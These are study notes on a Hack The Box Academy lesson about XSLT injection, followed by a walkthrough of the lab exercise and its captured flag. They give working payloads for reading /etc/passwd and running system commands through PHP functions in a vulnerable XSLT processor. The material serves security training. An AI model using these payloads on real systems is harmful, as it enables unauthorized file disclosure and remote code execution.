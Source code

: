 ```yaml
---
sticker: lucide//languages
---
```

After discussing some basics and use cases for XSLT, let us dive into exploiting XSLT injection vulnerabilities. 

---

## Identifying XSLT Injection

Our sample web application displays basic information about some Academy modules:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_1.png)

At the bottom of the page, we can provide a username that is inserted into the headline at the top of the list:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_2.png)

As we can see, the name we provide is reflected on the page. Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if our name is inserted without sanitization before XSLT processing. To confirm that, let us try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing the username `<`:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_3.png)

As we can see, the web application responds with a server error. While this does not confirm that an XSLT injection vulnerability is present, it might indicate the presence of a security issue.

---

## Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:


```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

The web application provides the following response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_4.png)

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability. Furthermore, we can deduce that the web application seems to rely on the `libxslt` library and supports XSLT version `1.0`.

---

## Local File Inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function `unparsed-text` that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. Thus, our sample web application does not support this function and instead errors out. However, if the XSLT library is configured to support PHP functions, we can call the PHP function `file_get_contents` using the following XSLT element:


```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

Our sample web application is configured to support PHP functions. As such, the local file is displayed in the response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_5.png)

---

## Remote Code Execution (RCE)

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function `system` to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_6.png)

# Question
---

![](cybersecurity/images/Pasted%2520image%252020250212153714.png)

Let's begin by identifying if the web application is vulnerable to XSLT:

![](cybersecurity/images/Pasted%2520image%252020250212153742.png)

If we use a test username, we can see it gets injected into the top side of the website, let's use `<` and check if an error occurs:

![](cybersecurity/images/Pasted%2520image%252020250212153834.png)

Page is broken, which means its vulnerable to XSLT, we can get RCE by submitting the following payload:

```xml
<xsl:value-of select="php:function('system','id')" />
```

![](cybersecurity/images/Pasted%2520image%252020250212153929.png)

We got RCE, let's read `/` directory:

```xml
<xsl:value-of select="php:function('system','ls /')" />
```

![](cybersecurity/images/Pasted%2520image%252020250212153953.png)

Found our flag:

```xml
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

![](cybersecurity/images/Pasted%2520image%252020250212154014.png)

Flag is:

```
HTB{3a4fe85c1f1e2b61cabe9836a150f892}
```

